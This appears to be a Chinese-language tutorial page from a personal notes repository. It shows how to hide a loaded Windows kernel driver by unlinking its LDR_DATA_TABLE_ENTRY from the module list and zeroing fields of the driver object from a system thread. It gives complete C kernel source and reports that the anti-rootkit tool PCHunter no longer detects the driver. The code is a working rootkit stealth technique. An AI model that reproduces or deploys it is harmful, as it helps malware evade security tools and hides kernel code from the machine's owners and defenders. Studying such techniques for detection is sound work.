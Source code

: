 补充
---

pDriverObject->DriverSection实际指向的是下面这个结构，但是微软并没有导出该结构体，需要我们自己定义使用

      typedef struct _LDR_DATA_TABLE_ENTRY
      {
        LIST_ENTRY InLoadOrderLinks;
        LIST_ENTRY InMemoryOrderLinks;
        LIST_ENTRY InInitializationOrderLinks;
        PVOID DllBase;
        PVOID EntryPoint;
        ULONG SizeOfImage;
        UNICODE_STRING FullDllName;
        UNICODE_STRING BaseDllName;
        ULONG Flags;
        USHORT LoadCount;
        USHORT TlsIndex;
        union
        {
          LIST_ENTRY HashLinks;
          struct
          {
            PVOID SectionPointer;
            ULONG CheckSum;
          };
        };
        union
        {
          ULONG TimeDateStamp;
          PVOID LoadedImports;
        };
        PVOID EntryPointActivationContext;
        PVOID PatchInformation;
        LIST_ENTRY ForwarderLinks;
        LIST_ENTRY ServiceTagLinks;
        LIST_ENTRY StaticLinks;
      } LDR_DATA_TABLE_ENTRY, * PLDR_DATA_TABLE_ENTRY;


操作
---

驱动也是一个双向链表，我们可以效仿之前断链隐藏进程的方式进行断链

但是我们在断链该驱动的时候，需要将该驱动对象的相关属性进行重置设置，如果直接置0，会发生蓝屏，因为我们正在使用该驱动

因此我们可以挂一个系统线程，对该驱动进行操作

      #include<ntifs.h>
      #include<intrin.h>
      typedef struct _LDR_DATA_TABLE_ENTRY
      {
        LIST_ENTRY InLoadOrderLinks;
        LIST_ENTRY InMemoryOrderLinks;
        LIST_ENTRY InInitializationOrderLinks;
        PVOID DllBase;
        PVOID EntryPoint;
        ULONG SizeOfImage;
        UNICODE_STRING FullDllName;
        UNICODE_STRING BaseDllName;
        ULONG Flags;
        USHORT LoadCount;
        USHORT TlsIndex;
        union
        {
          LIST_ENTRY HashLinks;
          struct
          {
            PVOID SectionPointer;
            ULONG CheckSum;
          };
        };
        union
        {
          ULONG TimeDateStamp;
          PVOID LoadedImports;
        };
        PVOID EntryPointActivationContext;
        PVOID PatchInformation;
        LIST_ENTRY ForwarderLinks;
        LIST_ENTRY ServiceTagLinks;
        LIST_ENTRY StaticLinks;
      } LDR_DATA_TABLE_ENTRY, * PLDR_DATA_TABLE_ENTRY;

      VOID DriverUnload(PDRIVER_OBJECT pDriverObject) {

        DbgPrint("Unload Driver Success! ");

      }
      VOID ThreadCallBackHide(PVOID Context) {
        PDRIVER_OBJECT pDriverObject = Context;
        PLDR_DATA_TABLE_ENTRY HeaderNode = &((PLDR_DATA_TABLE_ENTRY)pDriverObject->DriverSection)->InLoadOrderLinks;
        RemoveEntryList(HeaderNode); 
        pDriverObject->DriverSection = 0;//对驱动中的一些属性进行重置操作
        pDriverObject->Size = 0;
        pDriverObject->Type = 0;
      }

      NTSTATUS DriverEntry(PDRIVER_OBJECT pDriverObject, PUNICODE_STRING pRegPath) {
        DbgPrint("Load Driver Success!");
        HANDLE hThread = NULL;
        PsCreateSystemThread(&hThread, THREAD_ALL_ACCESS, NULL, NULL, NULL, ThreadCallBackHide, pDriverObject);
        return STATUS_SUCCESS;
        }
        
 
 由于我们隐藏了该驱动，所以我们的卸载函数就会失效，同时PCHUNTER也检测不到该驱动
 
 未加载
 ---
 
 ![](https://raw.githubusercontent.com/Whitebird0/tuchuang/main/QQ%E6%88%AA%E5%9B%BE20220117003959.png)
 
 已加载
 ---
 
 ![](https://raw.githubusercontent.com/Whitebird0/tuchuang/main/QQ%E6%88%AA%E5%9B%BE20220117004017.png)
